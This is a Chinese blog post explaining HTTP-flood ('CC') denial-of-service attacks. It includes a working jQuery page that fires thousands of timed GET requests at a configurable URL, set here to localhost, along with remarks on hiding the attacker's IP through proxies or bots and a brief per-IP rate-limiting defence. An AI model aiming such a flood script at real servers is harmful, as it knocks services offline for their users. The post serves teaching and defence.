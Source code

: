 ```yaml
---
title: Javascript 模拟CC攻击与防范浅析
date: 2017-10-15 18:13:17
tags: [干货, JavaScript]
categories: Web
---
```

# CC攻击的原理与防范浅析
#### 本人菜鸟一枚，如果说得不对，请见谅，欢迎指正。
## 一、CC攻击的原理： 
##### CC攻击的原理就是攻击者控制某些主机不停地发大量数据包给对方服务器造成服务器资源耗尽，一直到宕机崩溃。CC主要是用来攻击页面的，每个人都有这样 的体验：当一个网页访问的人数特别多的时候，打开网页就慢了，CC就是模拟多个用户(多少线程就是多少用户)不停地进行访问那些需要大量数据操作(就是需 要大量CPU时间)的页面，造成服务器资源的浪费，CPU长时间处于100%，永远都有处理不完的连接直至就网络拥塞，正常的访问被中止。

## 二、Js 模拟CC 攻击
#### CC攻击的种类有三种，直接攻击、代理攻击、僵尸网络攻击
#### 我们就来简单的模拟一下，我这种算是 直接攻击
#### 记住这个只是：简单模拟，简单模拟，简单模拟。
##### 我就一台电脑，没肉鸡。
> js 代码如下：

```html
<html>
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1" />
<script  src="http://libs.baidu.com/jquery/1.7.2/jquery.min.js"></script>
</head>
<body>
 <h1>发送请求数：<span id="requestNum">0</span></h1>
<script>
var i=0;
var task="";
//攻击次数
var attackNum = 10000;
//攻击地址
var url="http://127.0.0.1/blog";

//隔几毫秒攻击一次
var time=100;

$(document).ready(function(){	
	task = setInterval("MainTask()",time);
})
function MainTask(){
	i++;
	sendRequest(i);	
	addNum(i);
	if(i > attackNum){
		clearInterval(task);
	}
}
function sendRequest(i){
	console.log("send",i);
	$.ajax({
		type:"get",
		url:url,
		cache:false,
		dataType:"json",
		data:{},
		success:function(data){
			console.log("result-text:",data);
		}
	});
}
function addNum(num){
	$("#requestNum").text(num);
}
</script>
</html>
```
> 这只是简单的模拟，现实中不会那么简单，用本机攻击是可以追踪到你的ip，所以大部分都是通过代理或者肉鸡，进行攻击。ajax 可以不显示回调，不然会耗自己的带宽，我这里简单的模拟。而且现实中还有跨越问题等东西。

## 三、防御浅析
#### 思路：利用拦截器，拦截所有请求，统计单位时间内，单个IP访问的次数。如果访问次数超过你限制的数量，直接拉到黑名单。下次不给访问。统计个数可以用redis来实现，黑名单可以放在数据库，也可直接放缓存。最后就是放数据库，然后服务器启动时，把黑名单缓存起来。

#### springboot 拦截器  和  springboot 操作redis 我都有相对应的文章 与，源码示例，在博客可以搜 springboot 或者点击springboot 标签
#### 防御的具体实现代码，我就不说，这小防御代码挺简单的。
